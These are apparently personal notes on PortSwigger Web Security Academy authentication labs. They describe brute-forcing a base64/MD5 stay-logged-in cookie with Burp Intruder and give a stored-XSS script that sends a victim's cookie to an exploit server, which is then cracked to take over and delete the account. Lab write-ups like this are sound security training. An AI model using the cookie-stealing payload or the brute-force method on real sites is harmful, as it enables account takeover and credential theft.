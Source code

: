 
## LAB - 9
**lab link: <https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie>**

 **Topic :-**

- Brute-forcing a stay-logged-in cookie.

 **To Solve :-**

- Brute-force Carlos's cookie to gain access to his "My account" page.


 **Procedure :-**

1. Open site in burp and login with wiener cred with stayed log-in . in proxy-history, pages after the login contained the cookie containing "stayed-login" value which is base64("wiener:"+md5("peter")) . 
2. So we can brute force the password as carlos using same method as there is not use limit. using base64("carlos:"+(password)) , password from given word list.
3. Send any page containing "stayed-login" cookie to intruder remove session id, and brute force "stayed-login" value using password wordlist and in payload processor , first include md5 hasing, then "carlos:" prefix and then base64 encoding, and start attack . and voila. at some point the correct password would login and stayed login.


## LAB - 10
**lab link: <https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking>**

 **Topic :-** 

- Offline password cracking.

 **To Solve :-**

- Obtain Carlos's `stay-logged-in` cookie and use it to crack his password. Then, log in as `carlos` and delete his account from the "My account" page.

 **Procedure :-**

1. Login the wiener cred and post a script in comment to test XSS.
2. Then try 
```
<script>
	document.location='[explit_server_site/exploit]'+document.cookie
</script>
```
3. Post the comment and go to exploit server->access log. there you can see some one else's stayed-login cookie. decode its base64 , it would reveal that its of carlos and  decrypt the md5 hash next to carlos as it is its password.
4. Then login as carlos and delete the account.


## LAB - 11
**lab link: <https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware>**
